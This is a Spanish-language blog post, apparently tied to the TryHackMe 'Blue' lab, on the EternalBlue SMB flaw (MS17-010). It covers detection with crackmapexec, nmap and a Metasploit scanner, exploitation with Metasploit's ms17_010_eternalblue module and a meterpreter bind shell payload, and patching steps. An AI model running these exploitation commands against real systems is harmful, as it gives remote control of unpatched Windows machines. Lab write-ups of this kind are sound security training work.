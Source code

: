 ```yaml
---
layout: single
title: Eternal Blue
excerpt: "El post aborda la preocupante vulnerabilidad asociada con EternalBlue, un exploit utilizado para propagar malware, como WannaCry. En este análisis, nos enfocamos en proporcionar una guía detallada sobre la identificación y mitigación de esta amenaza, destacando las consecuencias potencialmente devastadoras que puede tener en los sistemas.

Exploramos los métodos para identificar y expotar la vulnerabilidad de EternalBlue en un sistema, analizando sus características distintivas y comportamientos asociados. Además, el post ofrece soluciones efectivas para solventar esta vulnerabilidad, detallando pasos prácticos que los administradores y usuarios pueden seguir para proteger sus sistemas contra posibles ataques.

Al comprender la gravedad de la amenaza y adoptar medidas proactivas, los lectores podrán fortalecer la seguridad de sus sistemas, reduciendo significativamente el riesgo de explotación de EternalBlue. Este análisis también resalta la importancia de abordar de manera sistemática las vulnerabilidades conocidas, subrayando su impacto potencial y la necesidad de una respuesta rápida y efectiva para garantizar la integridad y la seguridad de los sistemas informáticos"
date: 2023-12-29
classes: wide
header:
  teaser: /assets/images/vuln_eternal_blue/Logo.png
  teaser_home_page: true
  icon: /assets/images/vuln.png
categories:
  - Vulnerabilidad
  - Windows
tags:  
  - vulnerabilidad
  - windows
  - EternalBlue
  - metasploit
  - nmap
---
```


![](/assets/images/vuln_eternal_blue/Logo.png)

# Definición

EternalBlue es un conjunto de vulnerabilidades en el software de Microsoft y, al mismo tiempo, un exploit desarrollado por la Agencia de Seguridad Nacional (NSA) como herramienta de ciberataque. Oficialmente denominado MS17-010 por Microsoft, este exploit impacta exclusivamente a los sistemas operativos Windows. Sin embargo, cualquier dispositivo que utilice el protocolo de intercambio de archivos SMBv1 (Server Message Block versión 1) se encuentra técnicamente en riesgo de ser blanco de ransomware y otros tipos de ciberataques.

Esta vulnerabilidad posibilita que un atacante obtenga acceso remoto a la máquina afectada, lo que implica un riesgo significativo para la seguridad de los sistemas. En términos más simples, EternalBlue se convierte en una herramienta peligrosa que puede ser explotada para comprometer la integridad y privacidad de los sistemas informáticos que utilizan versiones vulnerables del software de Microsoft.

# Identificación 

Existen diferentes formas de poder escanear y identificar la vulnerabilidad de eternal blue la primera forma es con 

```bash
crackmapexec smb ip
```

si este nos devuelve e **SMBv1** en true significa que puede que el host sea vulnerable a eternal blue

![](/assets/images/vuln_eternal_blue/1.png)


si deseas comprobar  comprobar con otra herramienta si es vulnerable puedes hacerlo con la herramienta de nmap con el siguiente comando

```bash
nmap -p445 -sCV --script="vuln and safe" ip
```

si la maquina es vulnerable te saldrá lo siguiente

![](/assets/images/vuln_eternal_blue/2.png)

también puedes utilizar metasploit para escanear un host y verificar si este es vulnerable

```bash
use auxiliary/scanner/smb/smb_ms17_010
```

donde configuramos el scanner para que tome como host la ip de la victima 

```bash
set RHOSTS 10.10.174.11
```
![](/assets/images/vuln_eternal_blue/3.png)

y ponemos a correr el escáner 

```bash
run
```

![](/assets/images/vuln_eternal_blue/4.png)


# Explotación

para la explotacion utilizamos el modulo de **ms17_010_eternalblue** de metasploit ,donde cambiaremos el **rhosts** por la ip de la victima y cambiamos el **lhost** por nuestra ip

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS victim_ip
set lhost our_ip
```
y para hacer la escala de privilegios como pide tryhackme cambiamos el payload por el siguiente

```bash
set payload windows/x64/meterpreter/bind_tcp
```

![](/assets/images/vuln_eternal_blue/5.png)

ahora ejecutamos el exploit y podemos ver que obtenemos una shell con la maquina victima 

```bash
run
```
![](/assets/images/vuln_eternal_blue/6.png)


también en exploit db podemos encontrar exploit para aprovechar esta vulnerabilidad:
- [Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) - Windows remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/42315)
- [Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) - Windows remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/42031)


# Maquinas para practicar

- [Blue tryhackme](/tryhackme-writeup-blue)


# Solventar  Eternal Blue

1. **Actualiza tu Sistema Operativo:**
	- Asegúrate de que tu sistema operativo Windows esté completamente actualizado con los últimos parches de seguridad. Puedes hacer esto a través de Windows Update.
1. **Instala el Parche de Seguridad MS17-010:**
    - El parche de seguridad MS17-010 aborda específicamente la vulnerabilidad EternalBlue. Asegúrate de haber instalado este parche en tu sistema. Puedes encontrar este parche en el sitio web oficial de Microsoft o a través de Windows Update.
3. **Utiliza un Antivirus y Software de Seguridad:**
    - Mantén un software antivirus y otras herramientas de seguridad actualizados para detectar y prevenir posibles amenazas.
4. **Firewall y Configuración de Red:**
    - Configura un firewall adecuado para bloquear el tráfico no deseado y limitar el acceso a los servicios innecesarios. Además, segmenta tu red para reducir el riesgo de propagación.
5. **Monitorización y Detección de Amenazas:**
    - Implementa herramientas de monitoreo y detección de amenazas para identificar posibles intentos de explotación de vulnerabilidades.
6. **Auditoría de Seguridad:**
    - Realiza auditorías de seguridad periódicas para identificar y abordar posibles debilidades en tu infraestructura.
7. **Considera Desactivar SMBv1:**
    - Si no es necesario, considera desactivar el protocolo SMBv1, ya que EternalBlue se aprovecha de vulnerabilidades en este protocolo. Sin embargo, ten en cuenta que desactivar SMBv1 puede afectar la compatibilidad con sistemas más antiguos que dependen de este protocolo.

# Referencias
- https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
- https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

